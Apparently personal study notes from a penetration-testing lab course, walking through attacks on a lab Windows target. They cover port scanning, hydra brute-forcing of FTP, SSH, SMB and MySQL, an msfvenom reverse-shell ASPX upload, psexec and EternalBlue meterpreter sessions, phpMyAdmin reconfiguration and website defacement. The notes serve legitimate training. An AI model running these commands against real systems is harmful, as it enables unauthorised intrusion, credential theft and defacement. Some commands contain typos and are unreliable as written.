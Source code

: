 
Black box  Penetration Test 

To do: 
- `cat /etc/hosts `
- target: demo.ine.local 
10.2.19.218 


##### 1. Port scanning & enumeration 

- `Ping` target to check if we can communicate with the target
- perform `nmap` scan on target
	- basic scan: `nmap -sV ip `
	- `nmap  -T4 -PA -sC -sV -p 1-10000 target_ip -oX nmap_results_10k`
	- `nmap  -T4 -PA -sC -sV -p 1-65535 target_ip -oX nmap_results_65k` 
	- check udp port `nmap -sU -sV ip `
- Find out what is running on the target:
	- inspect pages that can be visited via browser 
- try to connect with a service:
	- `nc -nv target_ip target_port `

Output file in xml format can be imported in msfconsole 
Import findings in msfconsole: 
- `service postgresql start && msfconsole`
- create `workspace  `
- `db_import /root/Desktop/file/filename` (import results)
- `hosts` 
- `services`
- Get the exact operating system
	- `search smb_version`
	- `use aux/scanner/smb/smb_version`
	- ` set rhosts taret ip `
	- run (command `hosts` to check operating system)

#### Targeting Microsoft ISS FTP 

- Microsoft IIS - FTP is part of it the Microsoft IIS solution 
	- Microsoft ftp an microsoft IIS means that ftp is used to allow  authenticated users do modify the webserver directory

Steps:
1. identify vulnerability detection in regards with ftp: 
	- first check if anonymous logging is possible 
	    look for scripts: ` ls -al /usr/share/nmap/scripts/ | grep ftp- `
	    use script in nmap: `nmap -sV -p  --script=ftp-anon `
	    username: anonymous, password (geen) 

2.  ftp bruteforce attack with hydra
	- `hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt target_ip ftp `
	- check account: `hydra -l {username_youwanttofind}  -P /usr/share/wordlists/metasploit/unix_passwords.txt target_ip ftp ` or `hydra -l {username_youwanttofind}  -P /usr/share/wordlists/metasploit/unix_users.txt target_ip ftp `

3. use ftp ip port to connect to ftp server and use credentials found 

4. when you see an asp file you know the ftp client can TRY execute asp files 
	1. generate reverse shell with msfvenom 
		- `msfvenom -p windows/shell/reverse_tcp LHOST= your_ip LPORT= 1234 -f asp > shell.aspx `
	2. log back in into ftp server
		- put shell.aspx 
		- dir 

5. in different window start up multi/handler to receive the connection
	- `use multi/handler `
	- `set payload windows/shell/reverse_tcp `
	- in the browser: `ip/shell.aspx` 

if this did not work? 

pentester could try to deface the website: modify the webapplication or download client data - this is already something that should be reported. 
you could modify pages hosted 
get index.html
open the file in vim 
put index.html


#### Targeting OpenSSH 

Get the exact version of OpenSSH 

- `searchsploit OpenSSH version_number`
- burteforce: 
	- `hydra -l {username_youfound}  -P /usr/share/wordlists/metasploit/unix_users.txt target_ip ssh ` 
	- `hydra -l administrator  -P /usr/share/wordlists/metasploit/unix_users.txt target_ip ssh ` 
	- `hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt 10.0.26.161 ssh`

	
	- - `unix_users.txt`: This file contains common usernames that are often used on Unix-based systems. You would use this list when **you want to try different usernames with known or common passwords**. For example, you might use a list of common usernames like "root," "admin," "user," etc., and then try various passwords with each of these usernames.
	- `unix_passwords.txt`: This file contains common passwords that are often used on Unix-based systems. You would use this list when you have a specific username that you want to test with a variety of common passwords

- ssh username@ip 
	- pwd - whoami - net localgroup - 
- msfconsole
	- search ssh_login 
	- use au/scanner/ssh/ssh_login 
	- upgrade shell 
	- windows cmd session in ssh : `bash` 
	- `net localgroup administrators `
	- `whoami /priv`


#### Targeting SMB 

- bruteforce: 
	- `hydra -l administrator -P /usr/share/wordlists/metasploit/unix_users.txt  target protocol `
- enumerate shares
	- `smbclient -L targetip -U username`
	- `smbmap -u vagrant -p vagrant -H targetip `
- enumerate user accounts `enum4linux -u username -p password -U ip ` 

 - msfconsole
	 - enumerate users: `smb_enumusers` 

###### PSexec

**Manual**
	psexec allows you to remotely authenticate via SMB with legitimate credentials
		- `locate psexec.py `
		- Copy the file to Desktop:` cp file_path rename_file   `
		- make the file executable so we can utilize it: `chmod +x psexec.py`
	- `python 3 psexec.py Administrator@ip `

**msfconsole** 
	- `search psexec `
	- `use exploit/windows/smb/psexec `
		- `set payload windows/x64/meterpreter/reverse_tcp`
		- `Sysinfo` 
		- `getuid`
		- `getprivs`


What to do when you don't have smb credentials? if you know that the device is running eternalblue: 
	- `search eternalblue `
	- `use exploit/windows/smb/psexec `


#### Targeting MySQL Database Server

msfconsole
	- `use/aux/scanner/mysql/mysql_login `
	- `set pass_file /usr/share.wordlists/metasploit/unix_password.txt`

login mysql database server:
- `mysql -u root -p -h ip `
- `show databases`;

visit ip and port in browser 
*use the credentials found with the bruteforce for mysql database server to get access to another server -> wordpress via phpmyadmin*


phpmyadmin (try to change configuration file)
- msfconsole (get elevated meterpreter session)
	- `use exploit/windows/smb/ms17_010_eternalblue`
	- C drive 
	- Navigate to the software stack's folder. For example, if using WAMP, you can navigate to the web root directory by typing:cd `C:\\wamp\\www`


											wordpress directory 
											cat contant of config.php
											contains mysql passwords 

**Modify phpMyAdmin Configuration file** 

- Search for the `phpmyadmin.conf` file that controls phpMyAdmin's access.
- Download the `phpmyadmin.conf` file to your local machine using the Meterpreter session.
- Open and edit the `phpmyadmin.conf` file. Make sure it allows access from all IP addresses.
- Upload the modified `phpmyadmin.conf` file back to the Meterpreter session using the `upload` command.
- Restart the Apache service to apply the changes:
    - Open a Windows command prompt within the Meterpreter session using `shell`.
    - Stop the Apache service with the command: `net stop wampapache`.
    - Start the Apache service again with: `net start wampapache`.
- Revisit the phpMyAdmin page in your browser; you should now have unrestricted access.
	- change the password![[Pasted image 20230914165333.png]]
- Log in to the WordPress site via phpMyAdmin using the MySQL credentials obtained earlier.




#### Targeting MySQL Database Server 
